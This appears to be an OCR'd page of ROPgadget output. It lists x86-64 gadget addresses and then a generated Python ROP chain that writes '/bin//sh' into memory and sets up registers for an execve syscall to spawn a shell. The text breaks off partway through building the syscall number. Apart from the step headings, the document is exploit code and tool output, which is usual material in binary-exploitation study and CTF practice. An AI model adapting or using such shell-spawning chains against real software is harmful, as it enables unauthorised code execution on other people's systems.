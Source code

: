 ```
	[+] Gadget found: 0x9eda4 mov qword ptr [rdx], rcx ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret
	[+] Gadget found: 0xea79a pop rcx ; pop rbx ; ret
	[-] Can't find the 'xor rcx, rcx' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x2e1ac mov qword ptr [rdx], rax ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret
	[+] Gadget found: 0x3a738 pop rax ; ret
	[+] Gadget found: 0x8b945 xor rax, rax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x8b945 xor rax, rax ; ret
	[+] Gadget found: 0xabfc0 add rax, 1 ; ret
	[+] Gadget found: 0x8f8ab add eax, 1 ; ret
	[+] Gadget found: 0x6b429 add al, 1 ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x21112 pop rdi ; ret
	[+] Gadget found: 0x202f8 pop rsi ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x26bf syscall

- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000003c4080) # @ .data
p += pack('<Q', 0x000000000003a738) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000002e1ac) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000003c4088) # @ .data + 8
p += pack('<Q', 0x000000000008b945) # xor rax, rax ; ret
p += pack('<Q', 0x000000000002e1ac) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000021112) # pop rdi ; ret
p += pack('<Q', 0x00000000003c4080) # @ .data
p += pack('<Q', 0x00000000000202f8) # pop rsi ; ret
p += pack('<Q', 0x00000000003c4088) # @ .data + 8
p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000003c4088) # @ .data + 8
p += pack('<Q', 0x000000000008b945) # xor rax, rax ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
```